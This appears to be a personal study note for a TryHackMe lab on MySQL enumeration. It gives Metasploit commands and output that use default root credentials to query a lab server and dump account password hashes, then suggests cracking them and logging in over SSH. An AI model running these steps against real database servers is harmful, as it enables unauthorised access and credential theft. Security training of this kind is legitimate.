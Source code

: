 ## Pre-requisite --> [[tryhackme/services/enumeration]]

## MySQL enumeration practically:

we're going to assume that you found the **credentials: "root:password"** while enumerating subdomains of a web server.

### Requirements
```python
sudo apt install default-mysql-client
```

## Manual enumeration:
1. Scanning with nmap:
![[MySQL1.png]]

2. Manually connecting to MySQL server:
   ![[MySQL2.png]]
   We had used above credentials(root:password) for login purpose and now we exit from this session with "exit" command.

3. Finding the username with nmap script:
   ![[MySQL3.png]]


## Metasploit enumeration:
**Above two steps is same in this phase**

```python
msf6 > search mysql_sql
msf6 auxiliary(admin/mysql/mysql_sql) > options
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.19.225
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.19.225

[*] 10.10.19.225:3306 - Sending statement: 'select version()'...
[*] 10.10.19.225:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed

```
**Result** - We get the version of database that is running on the server.

#### MySQL hashdump to find the username with hashes:
```python
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use auxiliary/scanner/mysql/mysql_hashdump
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.19.225
RHOSTS => 10.10.19.225
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.19.225:3306     - Saving HashString as Loot: root:
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.19.225:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.19.225:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.19.225:3306     - Scanned 1 of 1 hosts (100% complete)

```
Now, we can crack the hash with john the ripper and login with ssh. 